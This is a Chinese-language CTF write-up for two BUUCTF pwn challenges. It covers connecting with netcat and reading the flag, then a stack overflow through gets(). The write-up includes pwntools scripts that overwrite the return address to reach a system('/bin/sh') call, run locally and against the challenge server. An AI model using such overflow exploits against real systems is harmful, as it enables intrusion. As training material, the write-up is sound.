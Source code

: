 ```yaml
---
title: BUUCTF-PWN
author: Stan
date: 2020-09-17 09:10:33 +0800
categories: [CTF,BUUCTF]
tags: [Pwn]
---
```

## test_your_nc
```
nc node3.buuoj.cn 25795
```

![2020-09-17_13-42-26](imgs/2020-09-17_13-42-26.png)

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## rip

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](imgs/2020-09-17_15-09-45.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](imgs/2020-09-17_19-15-52.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](imgs/image-20200917192213258.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](imgs/image-20200917192549256-1600403797734.png)

之后查看栈，发现只要覆盖15+8就可以了

之后写Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

![image-20200917194052156](imgs/image-20200917194052156.png)

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

![image-20200917194310546](imgs/image-20200917194310546.png)

得到flag